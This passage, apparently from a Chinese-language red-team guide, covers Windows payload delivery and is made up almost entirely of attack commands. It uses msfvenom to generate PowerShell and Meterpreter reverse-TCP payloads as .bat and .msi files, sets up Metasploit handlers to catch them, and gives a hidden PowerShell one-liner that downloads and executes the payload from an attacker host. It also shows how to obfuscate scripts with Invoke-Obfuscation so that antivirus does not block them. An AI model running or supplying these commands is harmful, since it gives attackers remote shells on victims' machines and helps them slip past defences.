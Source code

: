 ```plaintext
msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<Host> lport=<Port> -o attack.bat
```

MSF 监听。

```plaintext
handler -p cmd/windows/powershell_reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat'))"
```

6.补充

PowerShell 混淆

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

导入脚本

```plaintext
powershell -ep bypass import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation
```

设置需要混淆的脚本路径。

```plaintext
set scriptpath C:\attack.ps1
```

设置混淆模式。

```plaintext
token\all\1
```

输出混淆后脚本。

```plaintext
out mix-attack.ps1
```

尝试执行混淆后脚本看 AV 是否拦截。

```plaintext
powershell -ep bypass -f mix-attack.ps1
```

#### 2.1.7 msiexec

msiexec 用于安装 Windows MSI 程序，常常通过命令行用来批量安装应用。

生成 Payload。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f msi -o attack.msi
```

MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```
